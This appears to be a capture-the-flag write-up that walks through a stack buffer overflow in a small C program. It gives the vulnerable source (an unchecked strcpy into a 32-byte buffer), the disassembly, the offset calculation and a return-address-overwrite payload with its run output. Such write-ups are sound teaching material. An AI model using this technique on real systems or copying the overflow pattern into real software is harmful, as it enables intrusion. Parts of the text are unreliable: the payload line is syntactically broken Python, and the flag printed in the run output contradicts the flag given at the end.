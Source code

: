 # Rop to the Top - 130 points

<i>Rop, rop, rop
Rop to the top!
Slip and slide and ride that rhythm...</i> 

Here's some [binary](./rop_to_the_top32) and [source](./rop_to_the_top.c). Navigate to /problems/roptothetop/ on the shell server to try your exploit out!

Hint:
Look up "Return Oriented Programming" (ROP) vulnerabilities and figure out how you might be able to change the return address.

### Solution
###### Writeup by asinggih with a lot of help from Dhaval Kapil's [article](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Basically what we have to do in this particular challenge is to execute a function that isn't actually called by the program. All the program does is copy whatever we put inside ```argv[1]```, into it's a ```char``` array called ```destination``` with a size of ```32``` (Look at the given source code below).

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void the_top(){

	system("/bin/cat flag");

}

void fun_copy(char *input){

	char destination[32];
	strcpy(destination, input);
	puts("Done!");
}

int main (int argc, char **argv){
	gid_t gid = getegid();
	setresgid(gid,gid,gid);

	if (argc == 2){
		puts("Now copying input...");
		fun_copy(argv[1]);
	} else {
		puts("Usage: ./rop_to_the_top32 <inputString>");
	}

	return 0;
}

```

As the hint suggested, we need to change the return address of the function, so that we can call the ```the_top``` function. I did a bit of research in return oriented programming vulnerabilities, and came across a pretty good [resource](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/). The article basically mentioned that the vulnerability is only possible when the program is not compiled using stack protector. Stack protector prevents overflow attacks by setting up a 'canary'(a random integer) into the memory stack. The canary is then checked, before the function returns. If the value is different, then the program is terminated. Since stack smashing attacks generally requires writing beyond the limit of the buffer, it also changes the value of the canary.

With that being said, the article proceeds with steps to get into doing the buffer overflow attack. First step that should be done is to see the objdump of the particular binary. Below is the dump of the interesting parts of ```rop_to_the_Top32```:


```sh
080484db <the_top>:
 80484db:	55                   	push   %ebp
 80484dc:	89 e5                	mov    %esp,%ebp
 80484de:	83 ec 08             	sub    $0x8,%esp
 80484e1:	83 ec 0c             	sub    $0xc,%esp
 80484e4:	68 20 86 04 08       	push   $0x8048620
 80484e9:	e8 b2 fe ff ff       	call   80483a0 <system@plt>
 80484ee:	83 c4 10             	add    $0x10,%esp
 80484f1:	90                   	nop
 80484f2:	c9                   	leave  
 80484f3:	c3                   	ret    

080484f4 <fun_copy>:
 80484f4:	55                   	push   %ebp
 80484f5:	89 e5                	mov    %esp,%ebp
 80484f7:	83 ec 28             	sub    $0x28,%esp
 80484fa:	83 ec 08             	sub    $0x8,%esp
 80484fd:	ff 75 08             	pushl  0x8(%ebp)
 8048500:	8d 45 d8             	lea    -0x28(%ebp),%eax
 8048503:	50                   	push   %eax
 8048504:	e8 77 fe ff ff       	call   8048380 <strcpy@plt>
 8048509:	83 c4 10             	add    $0x10,%esp
 804850c:	83 ec 0c             	sub    $0xc,%esp
 804850f:	68 2e 86 04 08       	push   $0x804862e
 8048514:	e8 77 fe ff ff       	call   8048390 <puts@plt>
 8048519:	83 c4 10             	add    $0x10,%esp
 804851c:	90                   	nop
 804851d:	c9                   	leave  
 804851e:	c3                   	ret    

```
As it can be seen in the source code, the function that we want to force execute is ```<the_top>```, and our input is being handled by the function ```<fun_copy>```. By looking at the objdump, it can be derived that:

* the address of function ```<the_top>``` is ```080484db``` in hex

	```sh
	080484db <the_top>
	```

* ```0x28 and 0x8, which is 48 in decimal``` is reserved for local variables of ```<fun_copy>```

	```
	80484f7:	83 ec 28             	sub    $0x28,%esp
 	80484fa:	83 ec 08             	sub    $0x8,%esp
	```

* The address of ```destination``` starts at ```0x28 or 40 in decimal```. It means that the array ```destination``` has a 40 bytes reserve, even though it was set up as ```32 bytes``` in the source code

	```
	8048500:	8d 45 d8             	lea    -0x28(%ebp),%eax
	```



##### Payload Design
With these information, we can design the payload to attack the program.
40 bytes are reserved for ```destination```, which is located right next to the ```%ebp``` (extended base pointer) for the ```main()```. Hence the next 4 bytes will be used store the ```%ebp```, and the next 4 bytes will store the return address of the next function call. Therfore the payload can be constructed with ```40 bytes + 4 bytes``` of a random character + the return address of the function that we want to execute. In this case ```080484db <the_top>```.

As Dhaval Kapil has mentioned in his artice, the address of our function needs to be written differently depending on the endinaness of our machines. Since my machine is little endian, I had to wrote the address backwards. Below is my final payload

```sh
python -c "print('A'*44 + \xdb\x84\x04\x08)"
```

```\x``` is to show python that the value is in hex, and notice that i take pairs from the end of the address of our function ```080484db <the_top>```.


```sh
❯ ./rop_to_the_top32 `python -c "print('A'*44 + \xdb\x84\x04\x08)"` 
Now copying input...
Done!
actf{signed_ints_aint_safe}

[1]    44828 segmentation fault  ./rop_to_the_top32 `python -c "print('A'*44 + \xdb\x84\x04\x08)"`

```

However, when the source code is compiled using stack-protector, this is what we get

```sh
❯ ./mybin `python -c "print('A'*44 + \xdb\x84\x04\x08)"`
Now copying input...
Done!
*** stack smashing detected ***: <unknown> terminated
[1]    43632 abort      ./mybin `python -c "print('A'*44 + \xdb\x84\x04\x08)"`
```


## Flag
>actf{strut_your_stuff}



